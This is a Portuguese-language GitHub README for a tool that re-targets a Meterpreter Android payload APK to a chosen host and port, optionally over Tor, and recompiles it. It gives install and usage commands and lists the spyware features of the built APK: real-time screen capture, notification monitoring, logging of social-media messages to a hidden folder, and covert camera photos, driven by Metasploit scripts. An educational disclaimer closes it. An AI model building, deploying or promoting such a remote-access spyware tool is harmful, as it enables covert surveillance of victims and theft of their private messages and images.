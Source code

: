 # **Meterpreter-Nous**  

![Logo](https://raw.githubusercontent.com/mikelkarma/Meterpreter-Nous/refs/heads/main/screenshot.png)  

**Meterpreter-Nous** é um script que modifica e recompila um APK, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.  

---

## **Funcionalidades**  

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.  
- Suporte a hosts `.onion` para conexões via **Tor**.  
- Compilação automatizada do APK modificado.  

---

## **Requisitos**  

Certifique-se de ter os seguintes componentes instalados:  

- [Python 3.x](https://www.python.org/)  
- [apktool](https://github.com/iBotPeaches/Apktool)  
- [Java](https://www.java.com/)  

---

## **Instalação**  

Clone o repositório e acesse o diretório:  

- git clone https://github.com/mikelkarma/Meterpreter-Nous  
- cd Meterpreter-Nous  
- sh install.sh # Para sistemas Debian  

---

## **Uso**  

Defina o host e a porta diretamente na linha de comando:  

- python nous.py --host <IP ou domínio> --porta <porta> --tor <true/false>  

Exemplos:  

1. Configuração de um host sem Tor:  

   - python nous.py --host 192.168.0.1 --porta 8080 --tor false  

2. Configuração de um host `.onion` com Tor:  

   - python nous.py --host exemplo.onion --porta 8080 --tor true  

---

## **Recursos do APK Modificado**  

O APK gerado possui funcionalidades como:  

- Captura de tela em tempo real.  
- Monitoramento de notificações de aplicativos.  
- Captura de textos exibidos na tela, permitindo registrar mensagens de redes sociais.  
- Armazenamento das mensagens capturadas no diretório `/sdcard/.nous/key.sql`.  
- Captura de imagens da câmera frontal e traseira ao criar os arquivos `web1` e `web2` no diretório `/sdcard/.nous/`, gerando as imagens em `.photo.nous`.  

Os scripts para ativação dessas funções no Metasploit estão disponíveis em `msf-scripts`. Para utilizá-los, copie-os para o seu ambiente e execute:  

- meterpreter> run <script>  

---

## **Aviso Legal**  

Este código é disponibilizado exclusivamente para fins educacionais e de pesquisa.  

- Não há garantias de funcionamento ou segurança.  
- O uso deste código é de responsabilidade do usuário.  
- O autor não se responsabiliza por qualquer uso indevido ou ilegal deste software.  

Utilize este código de maneira ética e dentro dos limites da lei.
